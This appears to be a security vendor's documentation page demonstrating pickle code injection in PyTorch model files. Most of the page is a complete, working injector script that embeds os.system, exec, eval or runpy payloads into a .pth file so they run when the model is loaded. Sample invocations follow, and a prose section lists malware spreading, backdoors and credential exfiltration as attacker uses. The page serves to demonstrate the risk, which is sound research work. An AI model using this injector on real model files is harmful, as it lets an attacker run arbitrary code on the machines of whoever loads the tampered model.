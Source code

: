```yaml
---
title: ModelArmor Pickle Code Injection
description: The Pickle Code Injection Proof of Concept (PoC) demonstrates the security vulnerabilities in Python's `pickle` module, which can be exploited to execute arbitrary code during deserialization.
---
```


# **ModelArmor Use Case: Pickle Code Injection PoC**

The **Pickle Code Injection Proof of Concept (PoC)** demonstrates the security vulnerabilities in Python's `pickle` module, which can be exploited to execute arbitrary code during deserialization. This method is inherently insecure because it allows execution of arbitrary functions without restrictions or security checks.


## Core Code Overview

**Custom Pickle Injector:**

```python
import os, argparse, pickle, struct, shutil
from pathlib import Path
import torch

class PickleInject:
    def __init__(self, inj_objs, first=True):
        self.inj_objs = inj_objs
        self.first = first

    class _Pickler(pickle._Pickler):
        def __init__(self, file, protocol, inj_objs, first=True):
            super().__init__(file, protocol)
            self.inj_objs = inj_objs
            self.first = first

        def dump(self, obj):
            if self.proto >= 2:
                self.write(pickle.PROTO + struct.pack("<B", self.proto))
            if self.first:
                for inj_obj in self.inj_objs:
                    self.save(inj_obj)
            self.save(obj)
            if not self.first:
                for inj_obj in self.inj_objs:
                    self.save(inj_obj)
            self.write(pickle.STOP)

    def Pickler(self, file, protocol):
        return self._Pickler(file, protocol, self.inj_objs)

    class _PickleInject:
        def __init__(self, args, command=None):
            self.command = command
            self.args = args

        def __reduce__(self):
            return self.command, (self.args,)

    class System(_PickleInject):
        def __init__(self, args):
            super().__init__(args, command=os.system)

    class Exec(_PickleInject):
        def __init__(self, args):
            super().__init__(args, command=exec)

    class Eval(_PickleInject):
        def __init__(self, args):
            super().__init__(args, command=eval)

    class RunPy(_PickleInject):
        def __init__(self, args):
            import runpy
            super().__init__(args, command=runpy._run_code)
            def __reduce__(self):
                return self.command, (self.args, {})

# Parse Arguments
parser = argparse.ArgumentParser(description="PyTorch Pickle Inject")
parser.add_argument("model", type=Path)
parser.add_argument("command", choices=["system", "exec", "eval", "runpy"])
parser.add_argument("args")
args = parser.parse_args()

# Payload construction
command_args = args.args
if os.path.isfile(command_args):
    with open(command_args, "r") as in_file:
        command_args = in_file.read()

if args.command == "system":
    payload = PickleInject.System(command_args)
elif args.command == "exec":
    payload = PickleInject.Exec(command_args)
elif args.command == "eval":
    payload = PickleInject.Eval(command_args)
elif args.command == "runpy":
    payload = PickleInject.RunPy(command_args)

# Save the injected payload
backup_path = f"{args.model}.bak"
shutil.copyfile(args.model, backup_path)
torch.save(torch.load(args.model), f=args.model, pickle_module=PickleInject([payload]))
```

## Example Exploits

1. **Print Injection:**

   ```bash
   python torch_pickle_inject.py model.pth exec "print('hello')"
   ```

2. **Install Packages:**

   ```bash
   python torch_pickle_inject.py model.pth system "pip install numpy"
   ```

3. **Adversarial Command Execution:** Upon loading the tampered model:

   ```bash
   python main.py
   ```

   Output:

   - Installs the package or executes the payload.
   - Alters model behavior: changes predictions, losses, etc.

## Attacker Use Cases

1. **Spreading Malware:** The injected code can download and install malware on the target machine, which can then be used to infect other systems in the network or create a botnet.
2. **Backdoor Installation:** An attacker can use pickle injection to install a backdoor that allows persistent access to the system, even if the original vulnerability is patched.
3. **Data Exfiltration:** An attacker can use pickle injection to read sensitive files or data from the system and send it to a remote server. This can include configuration files, database credentials, or any other sensitive information stored on the machine.

## Key Risks

The `pickle` module is inherently insecure for handling untrusted input due to its ability to execute arbitrary code.

Ref: <https://hiddenlayer.com/research/weaponizing-machine-learning-models-with-ransomware/#Pickle-Code-Injection-POC>

---
